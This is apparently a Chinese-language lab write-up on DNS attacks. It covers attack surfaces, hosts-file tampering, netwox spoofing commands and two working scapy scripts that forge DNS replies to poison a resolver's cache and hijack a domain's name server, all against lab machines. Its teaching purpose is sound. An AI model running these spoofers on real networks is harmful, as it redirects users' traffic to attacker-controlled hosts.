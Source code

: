 # DNS攻击概述

针对DNS的攻击方式：  
1、拒绝服务攻击  
2、DNS欺骗攻击，主要目的是给受害者提供虚假的IP地址

对域名系统的四个攻击面：  
1、在受感染的计算机中攻击  
比如修改/etc/resolv.conf或/etc/hosts等  

2、攻击用户机  
当用户机给本地DNS服务器发送DNS请求时，攻击者可以立即发送一个欺骗的回复  

3、攻击本地DNS服务器：缓存中毒攻击  
当本地DNS服务器向因特网中的DNS服务器发送迭代请求时，攻击者可以发送欺骗回复给本地DNS服务器。  
欺骗回复的信息通常被DNS服务器缓存，这个攻击被称为DNS缓存中毒攻击  

4、从恶意DNS服务器发起攻击  
比如用户访问attacker32.com这个网站时，一个DNS请求会最终到达attacker32.com的权威域名服务器。
除了在响应的回复部分提供IP地址外，这个域名服务器还会提供授权和附加部分的信息。  
如果用户不加选择地接受域名服务器提供的所有信息，攻击者就可以通过提供虚假信息来达到攻击的目的。  

攻击角度示意图如下：
![攻击角度](../img/dns-attack-side.png)

## 攻击用户本机

假定攻破了用户主机，在/etc/hosts增加如下记录：
```bash
192.168.230.154 www.example.com
```
可以看到ping受到了影响，但dig没有影响
![修改hosts](../img/dns-hosts.png)

## 直接伪造结果给用户

当没有拿到用户机的shell，但是和用户机出于同一局域网，当用户机发dns请求时，对其dns伪造回复  
攻击机运行：  
```bash
sudo netwox 105 -h www.example.net -H 5.6.7.8 -a ns.attacker32.com -A 101.102.103.104
```
令网站www.example.net的查询结果为5.6.7.8  
查询该网站的域名服务器为ns.attacker32.com  
ip为101.102.103.104 
![伪造给用户](../img/dns-spoof-user.png)

## 本地DNS缓存中毒攻击

上面的攻击是一次都要伪造一个数据包，比较麻烦，而DNS缓存中毒攻击则实现在一段时间内都不用伪造  
攻击的是本地DNS服务器。实现攻击最重要的是伪造DNS回复，这个回复是UDP数据包。

实验的目的是在伪造的回复中，把主机名www.example.net映射到IP地址1.2.3.4，并且告诉本地DNS服务器
example.net的域名服务器是攻击者的计算机ns.attacker32.com，这样一来，所有对该域的查询都会发往
ns.attacker32.com  

```python
#!/usr/bin/python
from scapy.all import *

def spoof_dns(pkt):
  if(DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
     IPpkt = IP(dst=pkt[IP].src,src=pkt[IP].dst)
     UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

     Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                    rdata='1.2.3.4', ttl=259200)
     NSsec  = DNSRR(rrname="example.net", type='NS',
                    rdata='ns.attacker32.com', ttl=259200)
     DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd,
                  aa=1,rd=0,qdcount=1,qr=1,ancount=1,nscount=1,
                  an=Anssec, ns=NSsec)
     spoofpkt = IPpkt/UDPpkt/DNSpkt
     send(spoofpkt)

pkt=sniff(filter='udp and (src host 192.168.230.154 and dst port 53)',
          prn=spoof_dns)
```

步骤：  
1、打开wireshark，清空消息  
2、DNS服务端清理缓存
```bash
sudo rndc flush
```
3、攻击机器(这个实验必须要用三台虚拟机，攻击者用宿主机替代不成功)执行脚本  
```bash
sudo python dns_spoof.py
```
4、用户机dig域名
```bash
dig www.example.net
```
![dig域名](../img/dns-user-dig.png)

!!! Note 

    为了更方便测试，也可以将上述脚本filter改成： udp and dst port 53

攻击机器也可以不运行脚本，而改用一个命令：
```bash
sudo netwox 105 -h www.example.net -H 5.6.7.8 -a ns.attacker32.com -A 1.2.2.1 -d ens33 -T 600 -s raw
```
用户机得到dns解析结果：
![dig域名2](../img/dns-user-dig2.png)

![转储文件](../img/dns-dump.png)
将缓存转储到文件中，可以看到缓存已经被污染了

## 针对授权部分的攻击

上面的方法只有对一个域名的缓存，如果想要得到授权对一个域进行攻击的话，就需要配置一个合法的ip

实验的目的是伪造权威域名服务器，使所有example.net域的请求都指向attack32.com

```python
from scapy.all import *

def spoof_dns(pkt):
    if (DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname):
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='192.168.230.154')
        NSsec1 = DNSRR(rrname='example.net', type='NS',ttl=259200, rdata='attacker32.com')
        Addsec1 = DNSRR(rrname='ns.attacker32.com', type='A',ttl=259200, rdata='192.168.230.156')

        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1,
             ancount=1,nscount=1,arcount=1,an=Anssec, ns=NSsec1, ar=Addsec1)

        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```

步骤：  
1、服务端清缓存  
2、wireshark清空  
3、攻击机运行脚本  
4、用户机dig  
![伪造ns授权服务器](../img/dns-spoof-ns2.png)
可以看到attack32.com已经被当作权威域名  

!!! warning

    这部分书上是通过修改服务端配置文件的方式来做实验的，那首先得攻陷服务器。这里的方法不用攻陷服务器只是伪造脚本实现，
    更高明一点。